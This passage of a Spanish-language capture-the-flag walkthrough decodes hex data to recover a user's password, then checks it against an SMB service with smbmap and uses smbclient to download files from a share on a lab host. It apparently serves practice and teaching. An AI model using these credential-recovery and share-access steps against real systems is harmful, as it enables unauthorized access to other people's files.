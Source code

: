 Si byron tiene las contraseñas de todos sus vecinos vamos a ver si encontramos la contraseña de hermanubis, ya que la perdió.
Realizamos el proceso inverso lo pasamos de hexadecimal a data legible mediante un one liner donde representamos los valores en hex y la data legible para cada uno.

```bash
while IFS= read -r line; do  echo "Hex: $line\n"; echo "$line\n" | xxd -ps -r ; echo "\n-----------------------------\n"; done < hex > contraseñas
Hex: 4279726f6e4973417373686f6c650a0a
ByronIsAsshole
```
Dentro de toda la data que obtuvimos , vemos esta cadena que se asemeja a una contraseña.

## SMB

El servicio SMB estaba abierto, verificamos si la contraseña `ByronIsAsshole` es valida para el usuario `hermanubis`.
```bash
❯ smbmap -H 192.168.101.11 -u hermanubis -p ByronIsAsshole

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)                                
                                                                                                    
[+] IP: 192.168.101.11:445	Name: 192.168.101.11      	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	public                                            	READ ONLY	New Jerusalem Public
	hermanubis                                        	READ ONLY	Hermanubis share
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.17.12-Debian)
```
Verificamos que es válida. Entonces procedemos a enumerar los recursos compartidos.
Usamos smbclient para entrar a cada carpeta y descargar los recursos.

```bash
smbclient //192.168.101.11/public -U hermanubis%ByronIsAsshole
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Nov 28 06:57:45 2023
  ..                                  D        0  Sat Nov 25 11:19:40 2023
  new_era.txt                         N      158  Sun Nov 19 07:01:00 2023
  straton.txt                         N      718  Sun Nov 19 07:00:24 2023
  loyalty.txt                         N      931  Sun Nov 19 07:01:07 2023

		19962704 blocks of size 1024. 17137956 blocks available
smb: \> get new_era.txt 
getting file \new_era.txt of size 158 as new_era.txt (77.1 KiloBytes/sec) (average 77.1 KiloBytes/sec)
smb: \> get straton.txt 
getting file \straton.txt of size 718 as straton.txt (100.2 KiloBytes/sec) (average 95.1 KiloBytes/sec)
smb: \> get loyalty.txt 
getting file \loyalty.txt of size 931 as loyalty.txt (454.6 KiloBytes/sec) (average 160.4 KiloBytes/sec)
```